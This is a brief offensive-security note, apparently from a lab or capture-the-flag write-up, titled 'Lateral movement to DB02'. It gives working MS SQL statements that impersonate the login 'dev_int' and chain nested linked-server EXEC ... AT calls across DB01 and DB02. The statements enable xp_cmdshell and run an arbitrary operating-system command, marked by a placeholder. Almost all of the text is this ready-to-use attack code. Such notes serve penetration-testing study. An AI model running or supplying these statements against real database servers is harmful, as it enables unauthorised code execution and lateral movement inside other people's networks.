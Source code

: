 # Lateral movement to DB02

When you are on MS SQL of DB01 (when using WEB01$ machine account and impacket-mssql), you can perform code execution on DB02 using the same technique as for DB01, but using triple-hop:  
```sql
EXECUTE AS LOGIN = 'dev_int';  
EXEC ('EXEC (''EXEC ('''' sp_configure ''''''''show advanced options'''''''', 1; reconfigure; '''') AT db02 '') AT db01') AT db02
EXEC ('EXEC (''EXEC ('''' sp_configure ''''''''xp_cmdshell'''''''', 1; reconfigure; '''') AT db02 '') AT db01') AT db02
EXEC ('EXEC (''EXEC ('''' xp_cmdshell ''''''''<your cmd here>'''''''' '''') AT db02 '') AT db01') AT db02
```
